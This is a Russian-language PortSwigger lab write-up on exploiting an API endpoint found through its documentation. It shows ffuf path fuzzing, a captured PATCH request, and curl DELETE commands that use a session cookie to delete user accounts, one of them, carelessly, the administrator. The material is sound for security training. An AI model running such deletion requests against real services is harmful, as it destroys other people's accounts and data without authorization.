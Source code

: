 ```yaml
---
title: "Exploiting an API endpoint using documentation"
date: 2025-07-29
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/api-testing/api-testing-api-documentation/api-testing/lab-exploiting-api-endpoint-using-documentation"
classes: wide
---
```


Для прохождения лабы нужно удалить пользователя `carlos`. Для этого нужно найти подходящий ендпоинт.

Для в хода в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net
```

## Solution

Зайду в аккаунт, чтобы посмотреть, что вообще доступно пользователю.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_an_API_endpoint_using_documentation/1.png){: height="200" .align-center}

Попробую обновить почту, чтобы посмотреть, как формируется запрос для этого. Предварительно запущу [`ffuf`](https://cu63.github.io/tools/ffuf/) по списку популярных путей в `API`, чтобы попробовать найти ендпоинты.

```bash
ffuf -u https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/FUZZ -w wordlists/common.txt
```

Итак, попробую изменить почту на `new@mail.net`. Для этого отправлю следующий запрос:

```http
PATCH /api/user/wiener HTTP/2
Host: 0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net
Cookie: session=AIJf2Ci7rfaIg4i9yPYNfeLCp1RISEB5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 25
Origin: https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"new@email.net"}
```

Судя по всему на сайте есть ендпоинт `/api/user/<username>`. Посмотрю, что насканил `ffuf`:

```
Login                   [Status: 200, Size: 3172, Words: 1315, Lines: 64, Duration: 63ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 61ms]
api                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 65ms]
filter                  [Status: 200, Size: 10729, Words: 5059, Lines: 199, Duration: 62ms]
login                   [Status: 200, Size: 3172, Words: 1315, Lines: 64, Duration: 63ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 61ms]
```

Он тоже насканил `/api`. Попробую открыть эту страницу:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_an_API_endpoint_using_documentation/2.png){: height="200" .align-center}

Собственно вот они — все доступные методы `API`. Среди них есть нужный мне — `DELETE`. Отправлю нужный запрос с помощью `curl`:

```bash
cu63:~/ $ curl -X 'DELETE' https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/api/user/administrator                                      
"Unauthorized"%
```

Попробую добавить `Cookie`:

```
cu63:~/ $ curl -X 'DELETE' https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/api/user/administrator -b "session=AIJf2Ci7rfaIg4i9yPYNfeLCp1RISEB5"                                                                                                               
{"status":"User deleted"}%
```

Пуф, и нет человека)

Упс... Я удалил не того. Ну и ладно. На этот раз все получится)

```
cu63:~/ $ curl -X 'DELETE' https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/api/user/carlos -b "session=AIJf2Ci7rfaIg4i9yPYNfeLCp1RISEB5"                                                                                                               
{"status":"User deleted"}%
```

Теперь лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_an_API_endpoint_using_documentation/3.png){: height="200" .align-center}
